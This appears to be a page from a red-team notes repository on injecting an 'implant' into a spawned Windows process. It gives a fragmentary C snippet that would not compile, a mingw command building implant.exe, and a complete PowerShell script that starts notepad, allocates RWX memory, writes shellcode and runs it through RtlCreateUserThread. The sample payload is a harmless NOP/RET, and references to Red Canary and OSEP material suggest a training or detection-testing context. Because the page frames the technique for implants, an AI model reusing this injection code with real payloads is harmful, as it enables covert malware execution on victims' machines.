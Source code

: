 # Inject Spawned Process

## CreateProcess

> [!TIP]
> When you want to spawn a process then inject the implant. Implement conditions to discover uncommon programs that are installed in the computer.

### C

```c
#include <windows.h>
#include <processthreadsapi.h>

#pragma comment(lib, "kernel32.lib")

CreateProcess()

DWORD PID = pInfo.dwProcessId;
```

```
CreateProcessA()
CreateProcessW()
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o implant.exe implant.c
```

## PowerShell

```powershell
# Start a notepad process. This will be our injection target
$NotepadProcess = Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = 'notepad.exe' }
 
# Compile and load Windows API functions that will be needed to inject into another process
Add-Type -TypeDefinition @'
using System;
using System.Runtime.InteropServices;
 
namespace Win32 {
	public class NativeMethods {
        [DllImport("kernel32.dll", SetLastError = true)] public static extern IntPtr OpenProcess(int processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, int flAllocationType, int flProtect);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, ref uint lpNumberOfBytesWritten);
        [DllImport("kernel32.dll", SetLastError = true)] public static extern bool CloseHandle(IntPtr hObject);
        [DllImport("ntdll.dll")] public static extern int RtlCreateUserThread(IntPtr ProcessHandle, IntPtr SecurityDescriptor, bool CreateSuspended, IntPtr StackZeroBits, IntPtr StackReserved, IntPtr StackCommit, IntPtr StartAddress, IntPtr StartParameter, ref IntPtr ThreadHandle, ref IntPtr ClientID);
	}
}
'@
 
# Benign shellcode to inject into notepad - 0x90 (NOP), 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
[Byte[]] $Code = @(0x90, 0x90, 0x90, 0xC3)
 
# Obtain a handle to the open notepad process
$TargetProcessHandle = [Win32.NativeMethods]::OpenProcess(0x001FFFFF, $False, $NotepadProcess.ProcessId)
 
# Allocate read/write/execute memory in the notepad process for the shellcode
$TargetProcessBaseAddress = [Win32.NativeMethods]::VirtualAllocEx($TargetProcessHandle, [IntPtr]::Zero, $Code.Length, 0x3000, 0x40)
 
# Write the shellcode buffer to the notepad process​
$BytesWritten = 0
$null = [Win32.NativeMethods]::WriteProcessMemory($TargetProcessHandle, $TargetProcessBaseAddress, $Code, $Code.Length, [Ref] $BytesWritten)
 
# Execute the shellcode in the notepad process
[IntPtr] $RemoteThreadHandle = [IntPtr]::Zero
[IntPtr] $CliendId = [IntPtr]::Zero
$null = [Win32.NativeMethods]::RtlCreateUserThread($TargetProcessHandle, [IntPtr]::Zero, $False, [IntPtr]::Zero, [IntPtr]::Zero, [IntPtr]::Zero, $TargetProcessBaseAddress, [IntPtr]::Zero, [Ref] $RemoteThreadHandle, [Ref] $CliendId)
 
# Cleanup
$null = [Win32.NativeMethods]::CloseHandle($RemoteThreadHandle)
$null = [Win32.NativeMethods]::CloseHandle($TargetProcessHandle)
Stop-Process -Id $NotepadProcess.ProcessId 
```

---
## References

### Tenouk

- [Tenouk: Processes and Threads - C Run-Time - Part 1](https://www.tenouk.com/ModuleR.html)

- [Tenouk: Processes and Threads - C Run-Time - Part 2](https://www.tenouk.com/ModuleR1.html)

- [Tenouk: Processes and Threads - C Run-Time - Part 3](https://www.tenouk.com/ModuleR2.html)

- [Tenouk: Processes and Threads - Win32 APIs - Part 6](https://www.tenouk.com/ModuleU.html)

- [Tenouk: Processes and Threads - Win32 APIs - Part 8](https://www.tenouk.com/ModuleU2.html)

- [Tenouk: Processes and Threads - Win32 APIs - Part 9](https://www.tenouk.com/ModuleU3.html)

- [Tenouk: Processes and Threads - Win32 APIs - Part 10](https://www.tenouk.com/ModuleU4.html)

- [Tenouk: Windows Process and Thread References 2](https://www.tenouk.com/crstufunction1.html)

- [Tenouk: Windows Services & Process - A Supplementary Note](https://www.tenouk.com/cddeefunction1.html)

### Github

- [Chvancooten: Process Hollowing](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Hollowing)

### Red Canary

- [Red Canary: Process Injection](https://redcanary.com/threat-detection-report/techniques/process-injection/)